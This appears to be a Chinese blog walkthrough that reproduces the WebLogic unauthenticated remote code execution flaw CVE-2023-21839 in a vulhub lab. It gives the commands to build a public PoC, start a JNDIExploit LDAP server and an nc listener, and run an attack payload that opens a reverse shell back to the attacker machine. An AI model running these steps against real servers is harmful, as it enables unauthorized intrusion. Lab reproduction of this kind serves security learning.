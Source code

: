 # 原创
：  Weblogic未授权远程代码执行漏洞 (CVE-2023-21839) vulhub复现

# Weblogic未授权远程代码执行漏洞 (CVE-2023-21839) vulhub复现

**Weblogic未授权远程代码执行漏洞 (CVE-2023-21839)**

Oracle WebLogic Server 12.2.1.3.0, 12.2.1.4.0 和 14.1.1.0.0存在安全漏洞，攻击者可利用该漏洞导致对关键数据的未授权访问或对所有 Oracle WebLogic Server 可访问数据的完全访问。

**漏洞复现：**

靶机ubuntu：192.168.126.128

攻击机kali：192.168.126.130

`cd vulhub-master/`

`cd weblogic/`

`cd CVE-2023-21839/`

`docker-compose build #重新编译靶场环境 docker-compose up -d #开启靶场 docker-compose down #关闭靶场`

启动成功后访问`http://your-ip:7001/console`可以看到管理界面

账号密码可通过`docker-compose logs | grep password`查看<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/5fe12f2489634c9987fcd711d0529896.png"/>

**攻击环境搭建**

打开攻击机kali：192.168.126.130

下载poc：`git clone https://github.com/4ra1n/CVE-2023-21839`

没有安装go，先安装go：`sudo apt install gccgo-go`

安装后进行编译`go build -o CVE-2023-21839`

编译后：

**中转工具**

JNDIExploit下载：

`https://github.com/WhiteHSBG/JNDIExploit/releases/tag/v1.4`

1.开启JNDIExpolit监听：`java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.126.130`

2.开启nc监听： `nc -lvvp 1234`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/193edac104ef4cbe898d065d9065dce1.png"/>

3.攻击payload：

```
./CVE-2023-21839 -ip 192.168.126.128 -port 7001 -ldap ldap://192.168.126.130:1389/Basic/ReverseShell/192.168.126.130/1234

```

发起攻击<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b543a646a7ad4774aa644e8c83109899.png"/>

nc成功获得shell

成功创建hacker文件
